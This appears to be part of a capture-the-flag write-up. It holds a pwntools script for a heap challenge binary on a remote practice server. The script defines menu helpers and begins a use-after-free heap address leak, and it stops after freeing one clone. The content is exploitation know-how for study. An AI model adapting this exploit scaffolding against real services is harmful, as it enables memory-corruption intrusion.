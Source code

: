 Script/Command used
------------------
```
PROGNAME = "challenges/./usemedontabuseme"
REMOTEIP = "plsdonthaq.me"
REMOTEPORT = 7000

if args.REMOTE:
    p = remote(REMOTEIP, REMOTEPORT)
    elf = ELF(PROGNAME)
else:
    p = process(PROGNAME)
    elf = p.elf
 
def menu():
    p.recvuntil("Choice: ")

def make(index,name):
    log.info("Make: {}".format(index))
    p.sendline("a")
    p.recvuntil("Clone ID:",timeout=0.1)
    p.sendline(str(index))
    p.recvuntil("Enter Name")
    p.sendline(name)
    menu()

def edit(index,name):
    log.info("Edit: {}".format(index))
    p.sendline("c")
    p.recvuntil("Clone ID: ",timeout=0.1)
    p.sendline(str(index))
    p.recvuntil("Enter Name")
    p.sendline(name)
    menu()

def kill(index):
    log.info("Kill: {}".format(index))
    p.sendline("b")
    p.recvuntil("Clone ID:")
    p.sendline(str(index))
    menu()

def view(index):
    log.info("View: {}".format(index))
    p.sendline("d")
    p.recvuntil("Clone ID: ",timeout=0.1)
    p.sendline(str(index))
    p.recvuntil("Name: ",timeout=0.1)
    result = p.recvline()
    menu()
    return result

def hint(index):
    log.info("Hint: {}".format(index))
    p.sendline("h")
    p.recvuntil("Clone ID: ",timeout=0.1)
    p.sendline(str(index))
    return p.recvline()

# To get our heap address leak, we create and free two clones before viewing the 
# contents of the second one. The address is then the first 4 bytes of output.
make(0, b"AAAA")
make(1, b"BBBB")
kill(0)
```